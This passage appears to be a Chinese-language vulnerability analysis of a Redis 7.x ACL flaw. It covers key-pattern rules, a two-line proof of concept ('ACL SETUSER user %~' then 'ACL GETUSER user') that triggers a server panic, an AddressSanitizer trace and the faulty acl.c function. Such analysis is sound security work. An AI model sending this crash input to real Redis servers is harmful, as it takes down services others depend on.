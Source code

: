 %R~<<pattern>pattern>:（在Redis 7.0及以后版本中可用）添加指定的读取键模式。这与常规的键模式类似，但只授予权限从匹配给定模式的键中读取数据。

%W~<<pattern>pattern>:（在Redis 7.0及以后版本中可用）添加指定的写键模式。它的行为类似于常规的键模式，但只允许对匹配给定模式的键进行写操作。

%RW~<<pattern>pattern>:（可在Redis 7.0及以后版本中使用），是第一个规则的别名。

**2.用户管理规则（部分）**

on：将用户设置为激活，可以使用AUTH <username> <password>作为该用户进行身份验证。

off：将用户设置为未激活，将无法以此用户登录。如果一个用户在已经通过该用户的身份验证的连接之后被禁用（设置为off），那么该连接将继续按预期工作。

nopass：用户被设置为无密码用户。这意味着可以使用任何密码进行身份验证。

### 二、PoC
使用ACL SETUSER命令构造一个恶意的命令规则，在获取user的规则时即可触发断言错误。

``` shell
ACL SETUSER user %~
ACL GETUSER user
```
ASAN追踪漏洞，可以发现PoC在src/acl.c:307引发了崩溃。看到调用栈上面还有对_serverPanic的调用，可以判断这是一个断言错误，即redis对非预期的结果进行了断言处理。

``` shell
==36101==ERROR: AddressSanitizer: unknown-crash on address 0x0000800f7000 at pc 0x7f8835527956 bp 0x7ffe2f073940 sp 0x7ffe2f073100
READ of size 1048576 at 0x0000800f7000 thread T0
#0 0x7f8835527955 in memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors_memintrinsics.inc:115
#1 0x557a2d158714 in memtest_preserving_test /opt/redis-7.2.0/src/memtest.c:317
#2 0x557a2d1130b4 in memtest_test_linux_anonymous_maps /opt/redis-7.2.0/src/debug.c:2005
#3 0x557a2d1132bd in doFastMemoryTest /opt/redis-7.2.0/src/debug.c:2046
#4 0x557a2d113f8c in printCrashReport /opt/redis-7.2.0/src/debug.c:2190
#5 0x557a2d111788 in _serverPanic /opt/redis-7.2.0/src/debug.c:1158
#6 0x557a2d227284 in sdsCatPatternString /opt/redis-7.2.0/src/acl.c:307
#7 0x557a2d23550c in aclAddReplySelectorDescription /opt/redis-7.2.0/src/acl.c:2723
#8 0x557a2d23657f in aclCommand /opt/redis-7.2.0/src/acl.c:2844
#9 0x557a2d001571 in call /opt/redis-7.2.0/src/server.c:3519
#10 0x557a2d0055cb in processCommand /opt/redis-7.2.0/src/server.c:4160
#11 0x557a2d04439a in processCommandAndResetClient /opt/redis-7.2.0/src/networking.c:2466
#12 0x557a2d0448ab in processInputBuffer /opt/redis-7.2.0/src/networking.c:2574
#13 0x557a2d04578c in readQueryFromClient /opt/redis-7.2.0/src/networking.c:2713
#14 0x557a2d23d24f in callHandler /opt/redis-7.2.0/src/connhelpers.h:79
#15 0x557a2d23e728 in connSocketEventHandler /opt/redis-7.2.0/src/socket.c:298
#16 0x557a2cfe45fd in aeProcessEvents /opt/redis-7.2.0/src/ae.c:436
#17 0x557a2cfe4cf0 in aeMain /opt/redis-7.2.0/src/ae.c:496
#18 0x557a2d01798c in main /opt/redis-7.2.0/src/server.c:7360
```
### 三、漏洞成因
定位到src/acl.c:307，漏洞产生于sdsCatPatternString函数中，可以断定，恶意构造的命令规则没有进行正确的解析，被断言发现，引发panic。

``` c
src/acl.c 
sds sdsCatPatternString(sds base, keyPattern *pat) {
    if (pat->flags == ACL_ALL_PERMISSION) {
        base = sdscatlen(base,"~",1);
    } else if (pat->flags == ACL_READ_PERMISSION) {
        base = sdscatlen(base,"%R~",3);
    } else if (pat->flags == ACL_WRITE_PERMISSION) {
        base = sdscatlen(base,"%W~",3);
    } else {
        // 断言错误
👉       serverPanic("Invalid key pattern flag detected");
    }
    return sdscatsds(base, pat->pattern);
}
```

